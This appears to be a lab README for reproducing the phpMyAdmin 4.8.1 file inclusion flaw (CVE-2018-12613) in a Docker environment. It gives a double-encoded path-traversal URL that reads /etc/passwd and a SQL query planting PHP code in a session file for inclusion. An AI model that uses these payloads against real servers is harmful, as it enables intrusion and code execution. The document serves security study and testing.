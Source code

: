 # phpmyadmin 4.8.1 Remote File Inclusion Vulnerability (CVE-2018-12613)

[中文版本(Chinese version)](README.zh-cn.md)

PhpMyAdmin is a free software tool written in PHP, intended to handle the administration of MySQL over the Web. The vulnerability is in the `index.php`, causing  files iclusion vulnerabilitiy.

Reference links:

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## Setup

Run the following command to start phpmyadmin 4.8.1:

```
docker-compose up -d
```

After the environment starts, visit `http://your-ip:8080`. The phpmyadmin is "config" mode, so we can login directly.

## Expliot

Visit `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`, the result indicates that the file inclusion vulnerability exist:

![](1.png)

We can execute `SELECT '<?=phpinfo()?>';`, then check your sessionid (the value of phpMyAdmin in the cookie), and then include the session file:

![](2.png)